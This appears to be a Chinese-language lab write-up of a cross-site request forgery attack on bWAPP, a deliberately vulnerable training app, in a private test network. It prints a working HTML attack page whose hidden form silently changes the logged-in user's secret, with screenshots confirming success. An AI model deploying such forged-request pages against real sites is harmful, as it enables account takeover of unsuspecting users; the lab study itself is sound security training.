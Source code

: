 实验环境：

Win7-1(10.10.10.135)：模拟用户机

Win7-2(10.10.10.137)+bWAPP：模拟被攻击服务器

kali(10.10.10.139)：模拟攻击机



实验过程：

用户机登录服务器bWAPP：

![](https://s2.loli.net/2022/03/22/iYgtlWS4K7LbDPQ.png)

攻击者构造攻击页面，并部署在攻击机上：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>无标题文档</title>
<script type="text/javascript">
    function attack()
    {
        document.getElementById("transfer").submit(); 
    }
</script>
</head>

<body >
<h4 onclick="attack()">click me</h4>
    <form method="POST" id="transfer" action="http://10.10.10.137/bWAPP/csrf_3.php">
        <input type="hidden" name="secret" value="hack">
        <input type="hidden" name="login" value="bee">
        <input type='hidden' name="action" value="Change">
    </form>
</body>
</html>

```

上述代码的作用是诱使用户点击“click me”，自动跳转到修改密码的页面并自动提交新密码

攻击页面的URL为：http://10.10.10.139/test.html

用户机上访问该URL：

![](https://s2.loli.net/2022/03/22/jHLJ9yUqFru4nKm.png)

可以成功访问

首先用户成功登录bWAPP，让浏览器记录用户的Cookie

在让用户访问http://10.10.10.139/test.html

并点击“click me”

跳转到如下页面：

![](https://s2.loli.net/2022/03/22/wFIn2Bihl7Typgs.png)

表示已经修改成功了

我们查看服务器的数据库：

![](https://s2.loli.net/2022/03/22/ljGwVEC43z6ZeJb.png)

已经修改成功！！



在有些情况下，用户机点击攻击者构造的链接会自动跳转到如下界面，面跳转错误，经过反复排查后，发现清理了浏览器的数据后，又能够正常跳转了，可能是浏览器自动保存的某些数据让其产生了自动跳转。

![](https://s2.loli.net/2022/03/22/RwbDkqrFg8x7jpW.png)